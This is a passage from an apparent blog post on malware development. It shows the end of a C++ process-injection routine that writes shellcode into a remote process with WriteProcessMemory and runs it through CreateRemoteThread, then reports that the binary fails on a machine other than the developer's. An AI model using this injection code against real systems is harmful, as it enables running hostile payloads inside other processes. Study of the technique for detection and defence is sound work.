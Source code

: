 ```cpp
	WriteProcessMemory(hProcess, baseAddress, shellcode, shellcodeSize, NULL);
	printf("[+] Memory written: %zu bytes\n", shellcodeSize);

	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)baseAddress, NULL, 0, NULL);
	printf("[+] Thread created: 0x%p\n", hThread);
	printf("[+] Payload executed!");
}
```
When run on the dev machine, the compiled code works as expected.

[![Code Runs in Dev Machine](/static/img/2022-10-17-independent-malware/code-runs-dev-machine.png)](/static/img/2022-10-17-independent-malware/code-runs-dev-machine.png)

But when the same binary gets executed on a different machine, it throws the following error.

[![Code Doest not Work in a Different Machine](/static/img/2022-10-17-independent-malware/code-dont-run-lab-machine.png)](/static/img/2022-10-17-independent-malware/code-dont-run-lab-machine.png)

